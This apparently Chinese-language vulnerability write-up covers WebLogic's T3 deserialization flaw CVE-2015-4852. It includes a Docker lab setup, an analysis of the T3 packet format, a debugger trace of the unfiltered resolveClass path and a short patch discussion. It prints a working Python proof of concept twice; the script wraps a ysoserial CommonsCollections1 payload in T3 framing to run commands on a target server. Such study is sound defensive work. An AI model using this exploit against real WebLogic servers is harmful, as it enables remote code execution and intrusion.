# 环境搭建

weblogic反序列化主要有XMLDecoder和T3协议。先从T3协议开始，主要是`CVE-2015-4852`这个漏洞

使用github上的环境：https://github.com/QAX-A-Team/WeblogicEnvironment

下载jdk压缩包和weblogic，然后把下载好的jdk文件放在该项目的jdks文件夹下，weblogic的源码放在weblogics文件夹下。（具体的URL在md文件里面都有，这里我下的是jdk7u21和10.3.6的weblogic）

执行命令

```
docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=wls1036_generic.jar  -t weblogic1036jdk7u21 .

docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic1036jdk7u21 weblogic1036jdk7u21
```

原来的docker可能会有点问题，因为在2022年1月31日，CentOS团队终于从官方镜像中移除CentOS 8的所有包

所以需要在dockerfile里面添加一些命令

```
# 基础镜像
FROM centos
# 参数
ARG JDK_PKG
ARG WEBLOGIC_JAR
# 解决libnsl包丢失的问题
RUN cd /etc/yum.repos.d/
RUN sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*
RUN sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*
RUN yum update -y
RUN yum -y install libnsl

# 创建用户
RUN groupadd -g 1000 oinstall && useradd -u 1100 -g oinstall oracle
# 创建需要的文件夹和环境变量
RUN mkdir -p /install && mkdir -p /scripts
ENV JDK_PKG=$JDK_PKG
ENV WEBLOGIC_JAR=$WEBLOGIC_JAR

# 复制脚本
COPY scripts/jdk_install.sh /scripts/jdk_install.sh 
COPY scripts/jdk_bin_install.sh /scripts/jdk_bin_install.sh 

COPY scripts/weblogic_install11g.sh /scripts/weblogic_install11g.sh
COPY scripts/weblogic_install12c.sh /scripts/weblogic_install12c.sh
COPY scripts/create_domain11g.sh /scripts/create_domain11g.sh
COPY scripts/create_domain12c.sh /scripts/create_domain12c.sh
COPY scripts/open_debug_mode.sh /scripts/open_debug_mode.sh
COPY jdks/$JDK_PKG .
COPY weblogics/$WEBLOGIC_JAR .

# 判断jdk是包（bin/tar.gz）weblogic包（11g/12c）载入对应脚本
RUN if [ $JDK_PKG == *.bin ] ; then echo ****载入JDK bin安装脚本**** && cp /scripts/jdk_bin_install.sh /scripts/jdk_install.sh ; else echo ****载入JDK tar.gz安装脚本**** ; fi
RUN if [ $WEBLOGIC_JAR == *1036* ] ; then echo ****载入11g安装脚本**** && cp /scripts/weblogic_install11g.sh /scripts/weblogic_install.sh && cp /scripts/create_domain11g.sh /scripts/create_domain.sh ; else echo ****载入12c安装脚本**** && cp /scripts/weblogic_install12c.sh /scripts/weblogic_install.sh && cp /scripts/create_domain12c.sh /scripts/create_domain.sh  ; fi

# 脚本设置权限及运行
RUN chmod +x /scripts/jdk_install.sh
RUN chmod +x /scripts/weblogic_install.sh
RUN chmod +x /scripts/create_domain.sh
RUN chmod +x /scripts/open_debug_mode.sh
# 安装JDK
RUN /scripts/jdk_install.sh
# 安装weblogic
RUN /scripts/weblogic_install.sh
# 创建Weblogic Domain
RUN /scripts/create_domain.sh
# 打开Debug模式
RUN /scripts/open_debug_mode.sh
# 启动 Weblogic Server
# CMD ["tail","-f","/dev/null"]
CMD ["/u01/app/oracle/Domains/ExampleSilentWTDomain/bin/startWebLogic.sh"]
EXPOSE 7001
```

直接用上面代码覆盖dockerfile即可

访问http://192.168.121.132:7001/console/login/LoginForm.jsp



环境搭建成功

## 远程调试

但是为了远程调试，还是需要把docker里面一些包导出来才行

```
mkdir ./middleware
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/modules ./middleware/
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/wlserver ./middleware/
cd middleware
mkdir coherence_3.7
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/coherence_3.7/lib ./coherence_3.7/lib
```

然后用idea打开wlserver文件夹



导入coherence_3.7\lib和modules

接下来再把 server/lib 作为依赖进行导入



点击add as library

接下来添加远程debug，修改端口8453


最后debug去连接即可

# T3协议

T3协议是weblogic特有的一个协议，在正常的RMI通信中，是通过JRMP协议进行的，而weblogic通信是通过T3协议进行的，T3协议相比于JRMP会多一些特性，以下是T3协议的特点：

- 服务端可以持续追踪监控客户端是否存活（心跳机制），通常心跳的间隔为60秒，服务端在超过240秒未收到心跳即判定与客户端的连接丢失。
- 通过建立一次连接可以将全部数据包传输完成，优化了数据包大小和网络消耗。

用下列脚本发送一个请求包的头看看会有什么反应

```
import socket

def T3Test(ip,port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n" #请求包的头
    sock.sendall(handshake.encode())
    while True:
        data = sock.recv(1024)
        print(data.decode())

if __name__ == "__main__":
    ip = "192.168.121.132"
    port = 7001

    T3Test(ip,port)
```

请求包的头为

```
t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001
```

返回信息



整个过程用wireshark抓包看看，选择VMnet8这张网卡

追踪TCP流



看到最后的返回和脚本得到的结果是一样的，在HELO后面返回了应该版本号

这里看到的数据就是我们的请求头和响应头

## T3协议的组成

- 请求包头
- 请求主体

前面我们就只是发送了一个请求头，然后返回了一个响应头， 并没有发送一个请求主体

这里扒了一张图片来说明一下T3数据包的内容




T3数据包分为七个部分，第一个部分是协议头，也就是

```
t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n
```

第二部分到第七部分都是序列化数据

可以通过如下脚本来看看包含请求主体的样子

```
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        # return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.121.132"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)
```

因为这里的weblogic里面带有CC1的链子


我使用的7u21的jdk是可以打的，直接用ysoserial生成的链子作为请求主体的序列化数据，在目标处反序列化执行命令，创建一个新的文件



可以看到已经执行成功了，接下来就是wireshark抓包分析下流量了



这就是整个数据包的内容，下面是请求主体

- HL: 标识后边发起的T3协议头长度
- AS: 标识了发送的序列化数据的容量

查看十六进制数据可以发现

客户端与服务端通信的数据均以0a结尾，也就是以`\n\n`结尾



后面第二部分到第七部分都是以`ac ed 00 05`开头，也就是序列化数据，在才开始学java反序列化的时候也看到过

**T3协议数据交换过程**



## T3协议攻击weblogic

目前已经了解了T3协议的数据交换过程，我们还需要对数据包中的二进制串有一个深入的认知，才能理解T3协议反序列化的原理。

需要知道的有：

- 每个T3的数据包中都必须包含T3协议头
- 序列化数据的头部二进制串为`ac ed 00 05`
- 数据包前4字节，标识了数据包的长度
- 长度标识后一个字节标识了该数据包是请求还是响应，01代表请求,02代表响应



这里的`000005f0`代表数据包长度，`01`就表示请求，从`000005f0`这里到`aced0005`之前都属于第一部分

第二到第七部分内容，开头都是`ac ed 00 05`，说明这些都是序列化的数据。只要把其中一部分替换成我们的序列化数据就可以了，有两种替换方式

- 将weblogic发送的JAVA序列化数据的第二到七部分的JAVA序列化数据的任意一个替换为恶意的序列化数据。
- 将weblogic发送的JAVA序列化数据的第一部分与恶意的序列化数据进行拼接

所以这里的攻击方式就明白了，我们构造第一部分正常的序列化数据（这里是非java序列化数据），然后拼接java序列化数据来作为请求主体发送，最后的poc再贴一次

```
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        # return
    header = binascii.a2b_hex(b"00000000")  # 占位，保证总长度计算正确
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")  # 固定的T3协议头，直接通过硬编码塞进去
    desflag = binascii.a2b_hex(b"fe010000")  # weblogic反序列化数据的标志
    payload = header + t3header + desflag + payload  # 拼接yso生成的payload
    payload = struct.pack(">I", len(payload)) + payload[4:]  # 通过计算出来的长度替换掉前之前占位的数据
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.121.132"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)

```

这个poc本质就是把ysoserial生成的payload变成t3协议里的数据格式。

- 数据包长度包括了自身长度和其他三部分数据包长度，所以需要先占位，计算出长度后再替换进去
- T3协议头是固定的，直接硬编码进去就行
- 反序列化标志+数据=weblogic反序列化标志`fe010000`+ysoserial生成的序列化数据


文件创建成功

# 远程调试分析

说到底，其实和RMI反序列化是一个道理，通过序列化传输数据，在另外一端会去反序列化，只是在weblogic中这是通过T3协议完成的，而T3协议有一些自己的特性

我们主要的目的是去找在哪里去反序列化了

漏洞入口点`InboundMsgAbbrev#readObject`



可以看到这个var1里面的head



这就是我们传过来的数据

跟进read


调试到这里的`this.pos() == this.curEndEnvelope`表达式的值是false，调用super.read()



这里if表达式的值也是false，会跳出if，直接return



最后返回的结果是0

回到`InboundMsgAbbrev#readObject`，var的值是0，根据case语句，来到了case 0



跟进InboundMsgAbbrev的ServerChannelInputStream方法



跟进getServerChannel

```
public ServerChannel getServerChannel() {
        return this.connection.getChannel();
    }
```

直接返回了`this.connection.getChannel()`，`this.connection`主要存储了一些RMI连接的数据，包括端口地址


接下里调用了getChannel处理T3协议

最后var1.getServerChannel()的结果



这里其实就是为获取socket相关信息，然后回到InboundMsgAbbrev#readObject



因为java在反序列化之前会调用一个resolveclass函数读取反序列化的类名，在InboundMsgAbbrev这个类里面重写了resolveclass函数

```
protected Class resolveClass(ObjectStreamClass var1) throws ClassNotFoundException, IOException {
            Class var2 = super.resolveClass(var1);
            if (var2 == null) {
                throw new ClassNotFoundException("super.resolveClass returns null.");
            } else {
                ObjectStreamClass var3 = ObjectStreamClass.lookup(var2);
                if (var3 != null && var3.getSerialVersionUID() != var1.getSerialVersionUID()) {
                    throw new ClassNotFoundException("different serialVersionUID. local: " + var3.getSerialVersionUID() + " remote: " + var1.getSerialVersionUID());
                } else {
                    return var2;
                }
            }
        }
```

但是这里还是相当于直接调用了父类，也就是ObjectInputStream类的resolveclass方法

```
protected Class<?> resolveClass(ObjectStreamClass desc)
        throws IOException, ClassNotFoundException
    {
        String name = desc.getName();
        try {
            return Class.forName(name, false, latestUserDefinedLoader());
        } catch (ClassNotFoundException ex) {
            Class<?> cl = primClasses.get(name);
            if (cl != null) {
                return cl;
            } else {
                throw ex;
            }
        }
    }
```

然后通过Class.forName获取了类的对象，最后反序列化，因为这里的resolveclass没有做任何的过滤，所以只有存在对应的Gadget链就能进反序列化，达到命令执行的目的，而依赖中又有Commons-Collections3.2.0，这样Gadget也有了

# CVE-2015-4852补丁分析

这个漏洞的修复其实就在resolveclass里面添加一个黑名单ClassFilter.isBlackListed

可以在http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86/看到



先知的师傅还提出了另外的修复方式

开放在外网的情况下，还可以采用web代理和负载均衡。

